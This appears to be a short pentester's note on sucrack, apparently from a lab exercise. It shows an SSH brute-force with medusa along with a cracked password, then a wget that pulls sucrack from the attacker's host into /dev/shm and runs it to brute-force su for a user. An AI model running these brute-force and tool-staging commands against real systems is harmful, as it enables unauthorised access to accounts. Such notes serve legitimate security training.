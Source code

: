 # 💢 sucrack
Tags: #💢
Related to: 
See also: [[nping]], [[ndiff]], [[ncat]]
Previous: [[00 KALI/Information Gathering]]

---
## Description
sucrack is a multithreaded Linux/UNIX tool brute-force cracking tool that drives su(1) with referencing a specific user and uses words from a wordlist as passwords. Running sucrack does not require high privileges on the target system.

---

## Usage Examples

### Attempt SSH logins

	medusa -h 10.129.189.141 -U users.txt -P passwords.txt -M ssh 10.129.189.141

```
-h [TEXT]    : Target hostname or IP address
-U [FILE]    : File containing usernames to test
-P [FILE]    : File containing passwords to test
-M [TEXT]    : Name of the module to execute (without the .mod extension)


ACCOUNT FOUND: [ssh] Host: 10.129.189.141 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
```

If we don't have SSH on our box, we can perform this on another box using sucrack:

	cp /usr/bin/sucrack www
	cd /dev/shm
	wget 10.10.14.120/sucrack
	chmod +x sucrack
	vi passwords.txt
	
```
n1nj4W4rri0R!
test
admin
```

	./sucrack -a -w 20 -s 10 -u jimmy -rl AFLafld passwords.txt



---
## References
- 